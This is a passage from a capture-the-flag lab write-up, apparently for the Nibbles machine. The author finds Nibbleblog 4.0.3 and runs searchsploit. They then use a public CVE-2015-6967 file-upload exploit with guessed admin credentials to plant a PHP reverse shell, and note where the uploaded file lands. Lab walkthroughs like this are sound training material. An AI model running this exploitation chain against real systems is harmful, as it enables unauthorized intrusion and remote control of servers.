 ![](attachments/nibbles_7.png)

From the "Settings" menu, I found the CMS's version : `Nibblesblog 4.0.3 "Coffee"`.



# Shell as `nibbler`

### Exploit NibbleBlog 4.0.3 using Arbitrary File Upload Vulnerability

```bash
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ searchsploit nibbleblog 4.0.3
------------------------------------------ ---------------------------------
 Exploit Title                            |  Path
------------------------------------------ ---------------------------------
Nibbleblog 4.0.3 - Arbitrary File Upload  | php/remote/38489.rb
------------------------------------------ ---------------------------------
Shellcodes: No Results
```

I searched if there's any exploit with the CMS version, and found one.
There's a manual exploit code as well on github : https://github.com/dix0nym/CVE-2015-6967

```bash
┌──(kali㉿kali)-[~/htb/CVE-2015-6967]
└─$ python exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload ../rshell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```

I successfully uploaded php reverse shell payload.

Based on the code, it seems that the exploit uploads php file on `/content/private/plugins/my_iamge/image.php`.
